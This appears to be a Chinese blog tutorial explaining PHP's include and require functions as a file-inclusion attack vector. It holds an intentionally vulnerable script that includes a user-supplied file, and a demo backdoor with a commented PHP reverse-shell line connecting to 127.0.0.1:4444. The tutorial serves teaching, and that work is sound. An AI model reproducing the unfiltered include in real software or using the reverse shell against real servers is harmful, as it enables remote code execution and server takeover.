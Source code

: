 ## 文件包含

### include()

`include`将会包含语句并执行指定文件

```php
include 'filename';
```

关键点就在于执行指定文件，执行给了我们代码执行的机会。倘若此时我们构造了一个后门文件，需要在目标机器执行进行shell反弹，那么如果代码中有`include`而且没有进行过滤，那么我们就可以使用该函数来执行我们的后门函数。下面我来演示一下。

示例代码(1.php)：

```php
<?php
	highlight_file(__FILE__);
	$file = $_GET['file'];
	include $file;
?>
```

示例代码(2.php)：

```php
<?php
	//这里可以使用PHP来反弹shell，我这里只是演示
	//$sock=fsockopen("127.0.0.1",4444);exec("bin/bash -i <&3 >&3 2>&3");
	echo '<br><h1>[*]backdoor is running!</h1>';
?>
```

执行结果：

![](/assets/wgpsec/images/20200830215933.png)

### include_once()

`include_once`与`include`没有太大区别，唯一的其区别已经在名称中体现了，就是相同的文件只包含一次。其他功能和`include_once`一样，只是增加对每个文件包含的次数。

### require()

`require`的实现和`include`功能几乎完全相同，那既然一样为什么还要多一个这样的函数呢？( 我也不知道)

其实两者还是有点区别的，什么区别呢？这么说，如果你包含的文件的代码里面有错误，你觉得会发生什么？是继续执行包含的文件，还是停止执行呢？所以区别就在这里产生了。

`require`在出错时会导致脚本终止，而`include`在出错时只是发生警告，脚本还是继续执行。

### require_once()

这个我觉得你看完上面的，应该就懂了。这两者关系和`include`与`include_once`的关系是一样的。

### 总结

文件包含有很多利用手段，其中在实际环境中，例如我们向服务器写入了后门，但是我们无法直接连接服务器，那么如果有文件包含函数，我们可以通过文件包含函数包含执行我们的后门函数，让服务器反弹连接我们。岂不美哉。
